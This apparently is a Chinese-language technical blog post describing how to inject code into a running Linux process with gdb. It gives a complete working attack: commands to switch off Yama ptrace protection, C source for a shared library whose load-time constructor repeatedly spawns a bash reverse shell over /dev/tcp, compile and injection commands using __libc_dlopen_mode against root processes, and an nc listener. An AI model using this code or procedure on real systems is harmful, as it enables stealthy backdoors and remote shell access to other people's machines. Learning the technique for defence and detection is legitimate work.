 ```yaml
---
layout: post
title:  "使用gdb注入进程"
date:   2018-03-05 11:30:00
categories: 技术学习
tags: [gdb]
---
```


<!-- more -->

### 注入步骤

（1）linux 中的Yama模块会禁用ptrace-based代码注入，需要将其关闭

```
echo 0 > /proc/sys/kernel/yama/ptrace_scope # 允许任何进程注入代码到相同用户启动的进程中,root用户可以注入所有进程

echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码

```

（2） 要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL);
}

/* callback tries to spawn a reverse shell every so often.  */
void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
}

```

编译成动态链接库：
```
cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
```

（3）切换到root用户，列出root用户进程

```
ps -fxo pid,user,args | egrep -v ' \[\S+\]$'
```

选择想要注入的进程pid，使用gdb进行注入

```
echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid
```

用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库，

（4）开启另外的终端，监听本地的4444端口

```
nc -nvl 4444 
```

### 注入效果

![](../image/2018-03-15-使用gdb注入进程/1.jpg)

### 参考链接

https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

